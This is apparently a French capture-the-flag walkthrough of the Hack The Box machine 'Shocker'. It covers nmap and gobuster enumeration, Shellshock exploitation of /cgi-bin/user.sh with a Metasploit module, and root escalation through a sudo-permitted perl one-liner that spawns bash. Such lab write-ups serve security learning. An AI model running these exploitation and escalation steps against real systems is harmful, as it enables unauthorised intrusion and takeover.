 # Shocker - Easy

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-25 17:06 EST
Nmap scan report for 10.10.10.56
Host is up (0.030s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 80 avec apache → on va voir ce qu’il s’y passe.

On arrive sur une page avec une image et un texte: “don’t bug me”.

On lance alors une analyse gobuster en fond

```bash
gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt
```

Rien dans le code source de la page, rien de trouvé d’accessible dans le gobuster.

On regarde donc du coté de openssh et de sa version et on tombe sur ceci:

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/40136)

On teste alors l’exploit mais il nous faut un user, on tente alors avec bug et shocker mais aucun résultat. En revanche si on prend également la version d’ubuntu qui va avec à cause de la mauvaise config du serveur. Il est aussi possible de trouver la version d’ubuntu précise en partant de la version d’apache, il suffit de regarder dans les packages ubuntu et leurs version associées. Rien de particulier du coup.

En revanche on a trouvé le repertoire /cgi-bin/ donc on essaye d’explorer à partir de celui-ci. On essaye avec des fichiers courants

```bash
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x sh,php,ini,sql
```

Et on trouve le fichier user.sh, on regarde le contenu.

```bash
Content-Type: text/plain

Just an uptime test script

 11:41:02 up 35 min,  0 users,  load average: 0.00, 0.02, 0.02
```

Il semble que le serveur run la commande et nous renvoie le résultat. Vu que le serveur utilise CGI (Common Gateway Interface) on pense à un shellshock, on va donc voir si un exploit metasploit est disponible.

```bash
sudo msfdb init && sudo msfconsole
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS 10.10.10.56
set TARGETURI /cgi-bin/user.sh
check
[+] 10.10.10.56:80 - The target is vulnerable.
```

On voit donc que le site est vulnérable, on tente l’exploitation

```bash
exploit
shell
```

Et on est bien connecté en tant que shelly

On tente d’upgrade le shell qu’on a obtenu: 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

On est donc en mesure de récupérer le flag user !

Premier réflexe on regarde les droits sudo

```bash
sudo -l
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

On pense alors à créer un perl qui créée un bash en tant que root

```bash
cd /tmp
echo "system('/bin/bash');" > test.pl
sudo /usr/bin/perl test.pl
```

On obtient un shell root et le flag root !